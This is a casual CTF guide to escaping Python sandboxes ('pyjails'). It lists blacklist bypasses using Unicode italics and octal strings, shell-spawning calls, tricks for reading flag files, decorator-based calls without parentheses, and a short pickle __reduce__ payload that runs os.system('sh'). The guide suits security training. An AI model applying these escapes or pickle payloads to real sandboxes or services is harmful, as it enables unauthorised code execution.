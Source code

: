 # The Definitive Guide to Pyjails

## Introduction

A PyJail, or Python Jail, refers to a restricted Python environment designed to limit the capabilities of code executed within it. It is commonly encountered in Capture The Flag (CTF) challenges and security exercises, where the goal is to "escape" the jail and achieve a higher level of access or control, often by accessing restricted functions.

---
## Traditional Pyjails

### Unicode bypass 😈😈😈
Probably the most straightforward way of escaping a pyjail if a SKID wrote it.  

Python normalises italics for some reason, but the characters don't match your normal ASCII table, so standard blacklists won't work.  

Note that symbols still remain the same.  

https://lingojam.com/ItalicTextGenerator

### Helpful builtins

`eval()`, `exec()`, `compile()`: execute arbitrary code

### Spawning shells / running system commands

Shell commands: `sh`, `python3`

Helpful functions:
- `os.system()`: probably the most well-known method     
- `subprocess.call()`, `subprocess.run()`: allows you to spawn shells
- `subprocess.Popen()`, `subprocess.check_output()`: runs commands and returns the output
- `pty.spawn()`: lesser known but still helpful!

Debug mode: `breakpoint()`, `__import__('sys').breakpointhook()`, `pdb.set_trace()`
- starts a python debugger

Python Interactive mode
- `code.interact()`: launches a Python shell
- `os.environ["PYTHONINSPECT"] = "1"`: launches a Python shell when your script finishes execution

### Reading files
`open('flag.txt').read()` (H2 computing doesn't recommend this)

But what if `print()` isn't available...?
- `help()`, `quit()`, `exit()`: essentially a one-time `print()`

But what if `read()` isn't accessible? Redirect to `stderr`!
1. unpack your file object into a string: `*open('flag.txt')`
2. then run a faulty conversion!: `int()`, `float()`, `complex()`

### No builtins???

### NO PARENTHESES??? 💔💔💔
Probably the most troublesome to bypass...  
Luckily, you can chain decorators to a dummy class to invoke functions without parentheses!

```python
@exec
@input
class C:
    ...
```

### NUKED BUILTINS 😱😱😱
Setting a `__builtins__` function to `None` completely removes the global reference to it (eg. `__builtins__.eval = None`)  

Honestly nothing you can do about it brotato chip ✌🥀, just find another entry point.  

### More stuff
Dynamically accessing attributes
- `getattr()`: for objects
- `__getitem__()`: for dictionaries

Octal encoding
- bypass blacklists within your strings!
- eg: `'\146\154\141\147.txt'` -> `'flag.txt'`

Assigning variables
- the walrus operator treats an assignment as an expression
- only works for variables (no attribute assignment)
- eg: `a:=1`

---
## SSTI

---
## Pickle
Pickle has a pretty well-known RCE exploit that allows you to run arbitrary commands on deserialisation.  

```python
class Exploit():
    def __reduce__(self):
        return (os.system, ('sh',))

payload = pickle.dumps(Exploit())
```